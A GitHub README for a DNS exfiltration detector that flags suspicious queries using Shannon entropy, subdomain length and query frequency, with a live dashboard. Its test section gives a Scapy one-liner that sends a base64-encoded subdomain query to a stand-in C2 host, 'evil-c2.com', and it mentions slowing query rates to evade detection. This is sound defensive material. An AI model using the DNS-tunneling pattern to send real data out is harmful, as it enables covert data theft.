

# DNS Exfiltration Detector

A real-time network monitoring tool that detects DNS-based data exfiltration 
and C2 tunneling attempts using Shannon entropy analysis and behavioral detection rules.

## What is DNS Exfiltration?

Attackers can smuggle stolen data out of a network by hiding it inside DNS queries. 
Instead of querying something like `mail.google.com`, a tool like iodine encodes 
data into subdomains — `aGVsbG9teW5hbWU.evil-c2.com`. Most firewalls allow DNS 
traffic through by default, making it a common exfiltration technique used in 
real-world attacks and APT campaigns.

## How the Detector Works

The tool captures live DNS traffic using Scapy and runs each query through 
three detection rules:

1. **Entropy scoring** — measures how random a subdomain looks using Shannon 
entropy. Normal domains score low (~1.5). Base64 or hex encoded payloads 
score high (3.8+).

2. **Subdomain length** — flags subdomains over 52 characters, since legitimate 
services rarely need subdomains that long.

3. **Query frequency** — flags when the same base domain receives more than 
20 queries within 60 seconds, which is characteristic of tools breaking 
data into chunks across multiple queries.

A single rule trigger is not enough to fire an alert. The tool requires at 
least two rules to fire simultaneously, or an entropy score above 4.0, before 
classifying traffic as suspicious. This was a deliberate design decision to 
reduce false positives from CDN and ad network traffic, which naturally 
produces high-entropy subdomains.

Alerts are written to a log file and visualized on a live Dash dashboard 
showing entropy scores over time and a sortable alert table.

## Demo



## Setup
```bash
git clone https://github.com/ymakhtedarintes/dns-exfiltration-detector
cd dns-exfiltration-detector
pip3 install scapy dash pandas
```

Run the detector (requires root for packet capture):
```bash
sudo python3 detector.py
```

Run the dashboard in a second terminal:
```bash
python3 dashboard.py
```

Open `http://localhost:8050` in your browser.

## Simulating an Attack

To test detection without real malicious traffic, craft a DNS query with 
a high-entropy subdomain:
```bash
sudo python3 -c "
from scapy.all import *
send(IP(dst='8.8.8.8')/UDP(dport=53)/DNS(rd=1,qd=DNSQR(qname='aGVsbG9teW5hbWVpc3lhc2g.evil-c2.com')))
"
```

The detector will flag this as CRITICAL within seconds.

## Known Limitations

- Entropy scoring alone produces too many false positives on public internet 
traffic. The correlated multi-rule approach reduces this but does not eliminate 
it entirely.
- An attacker aware of frequency thresholds could slow their query rate to 
avoid detection.
- The whitelist covers common CDN and ad domains but requires manual updates 
for less common services.

## Stack

Python, Scapy, Dash, Plotly, Pandas
